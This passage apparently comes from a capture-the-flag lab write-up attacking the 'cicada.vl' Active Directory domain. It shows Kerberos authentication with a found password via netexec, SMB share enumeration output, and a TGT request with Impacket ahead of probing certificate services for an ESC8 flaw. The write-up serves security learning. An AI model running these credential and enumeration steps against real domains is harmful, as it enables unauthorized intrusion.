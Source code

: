 NTLM is deactivaded in this domain, so I use Kerberos authentication just by adding the `-k` parameter and it worked.

```bash
# nxc smb DC-JPQ225.cicada.vl -u 'rosie.powell' -p 'Cicada123' -k
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*]  x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\rosie.powell:Cicada123 
```

`rosie.powell:Cicada123`

# Discovering an ESC8 vulnerability

### SMB

With this account, I can enumerate the SMB shares.

```bash
# nxc smb DC-JPQ225.cicada.vl -u 'rosie.powell' -p 'Cicada123' -k --shares
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*]  x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\rosie.powell:Cicada123 
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*] Enumerated shares
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        Share           Permissions     Remark
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        -----           -----------     ------
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        ADMIN$                          Remote Admin
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        C$                              Default share
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        CertEnroll      READ            Active Directory Certificate Services share
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        IPC$            READ            Remote IPC
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        NETLOGON        READ            Logon server share
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        profiles$       READ,WRITE      
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        SYSVOL          READ            Logon server share
```

###  ADCS

Nothing interesting stands out here, but I see that there his an ADCS service in this domain.
I'll use the `certipy` tool to enumerate it, but before this I need to request a TGT for the authentication.

```bash
# getTGT.py "cicada.vl"/"rosie.powell":'Cicada123'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in rosie.powell.ccache
```

I set the `KRB5CCNAME` environment variable to the `rosie.powell.ccache` and ask `certipy` to find vulnerable certificate templates.
